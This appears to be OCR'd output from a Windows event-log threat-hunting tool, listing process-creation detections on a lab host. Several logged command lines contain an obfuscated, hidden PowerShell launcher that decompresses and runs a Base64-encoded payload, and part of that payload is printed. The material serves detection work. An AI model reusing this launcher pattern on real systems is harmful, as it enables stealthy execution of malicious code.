```powershell-session
│                     │                             │       │                                │          │           │                     │ i -nop -w hidden -c &([scriptb   │
│                     │                             │       │                                │          │           │                     │ lock]::create((New-Object Syst   │
│                     │                             │       │                                │          │           │                     │ em.IO.StreamReader(New-Object    │
│                     │                             │       │                                │          │           │                     │ System.IO.Compression.GzipStre   │
│                     │                             │       │                                │          │           │                     │ am((New-Object System.IO.Memor   │
│                     │                             │       │                                │          │           │                     │ yStream(,[System.Convert]::Fro   │
│                     │                             │       │                                │          │           │                     │ ...                              │
│                     │                             │       │                                │          │           │                     │ (use --full to show all content) │
│                     │                             │       │                                │          │           │                     │ NewProcessId: '0x6e8'            │
│                     │                             │       │                                │          │           │                     │ NewProcessName: C:\Windows\Sys   │
│                     │                             │       │                                │          │           │                     │ tem32\cmd.exe                    │
│                     │                             │       │                                │          │           │                     │ ProcessId: '0x1d0'               │
│                     │                             │       │                                │          │           │                     │ SubjectDomainName: OFFSEC        │
│                     │                             │       │                                │          │           │                     │ SubjectLogonId: '0x3e7'          │
│                     │                             │       │                                │          │           │                     │ SubjectUserName: FS03VULN$       │
│                     │                             │       │                                │          │           │                     │ SubjectUserSid: S-1-5-18         │
│                     │                             │       │                                │          │           │                     │ TokenElevationType: '%%1936'     │
├─────────────────────┼─────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼─────────────────────┼──────────────────────────────────┤
│ 2021-04-22 08:51:05 │ + Unusually Long PowerShell │ 1     │ Microsoft-Windows-Security-Aud │ 4688     │ 435124    │ fs03vuln.offsec.lan │ CommandLine: '"C:\Windows\sysw   │
│                     │ CommandLine                 │       │ iting                          │          │           │                     │ ow64\WindowsPowerShell\v1.0\po   │
│                     │                             │       │                                │          │           │                     │ wershell.exe" -noni -nop -w hi   │
│                     │                             │       │                                │          │           │                     │ dden -c &([scriptblock]::creat   │
│                     │                             │       │                                │          │           │                     │ e((New-Object System.IO.Stream   │
│                     │                             │       │                                │          │           │                     │ Reader(New-Object System.IO.Co   │
│                     │                             │       │                                │          │           │                     │ mpression.GzipStream((New-Obje   │
│                     │                             │       │                                │          │           │                     │ ct System.IO.MemoryStream(,[Sy   │
│                     │                             │       │                                │          │           │                     │ stem.Convert]::FromBase64Strin   │
│                     │                             │       │                                │          │           │                     │ g(''H4sIAPg2gWACA7VWbW+bSBD+nE   │
│                     │                             │       │                                │          │           │                     │ j5D6iyBKiOIbbbvEiVbgFju4kdbBI7   │
│                     │                             │       │                                │          │           │                     │ sWud1rCGbRbWgSWO0/a/32CgTa/pXX   │
│                     │                             │       │                                │          │           │                     │ vSIb/sy8zszDPPzrDKYk9QHku+w91M   │
```